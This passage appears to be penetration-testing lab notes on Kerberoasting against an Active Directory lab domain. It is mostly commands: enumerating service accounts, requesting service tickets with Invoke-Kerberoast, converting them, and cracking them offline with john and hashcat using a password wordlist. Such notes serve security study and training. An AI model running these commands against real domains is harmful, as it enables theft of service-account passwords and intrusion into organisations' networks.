     the same TGS can also be cracked by using `john`, but it must be firstly converted into a compatible format:
    
    ```bash
    # tgsrepcrack.py
    python3 ./kirbi2john.py -o ./tgs.john ./240a10000-STUDENT1@MSSQLSvc~database.cyberlab.cybercorp.localCYBERLAB.LOCAL.kirbi
    
    # JohnTheRipper
    /usr/sbin/john --format=krb5tgs ./tgs.john --wordlist=./10-million-password-list-top-1000000.txt
    ```
    

An alternative way to perform Kerberoasting is to use `PowerSploit` combined to `john` or `hashcat`:

1. Find user accounts used as Service accounts:
    
    ```powershell
    # PowerView
    Get-NetUser -SPN
    
    # ActiveDirectory Module
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
    ```
    
2. Request a TGS:
    
    ```powershell
    # Invoke-Kerberoast.ps1
    ## JohnTheRipper (bleeding-jumbo branch)
    Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII john_tgs.kirbi
    
    ## HashCat
    Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashcat_tgs.kirbi
    ```
    
3. Brute-force the exported ticket:
    
    ```bash
    # JohnTheRipper (bleeding-jumbo branch)
    john --format=krb5tgs --wordlist=./10-million-password-list-top-1000000.txt john_tgs.kirbi
    
    # HashCat
    hashcat -m 13100 --force hashcat_tgs.kirbi ./10-million-password-list-top-1000000.txt
    ```
    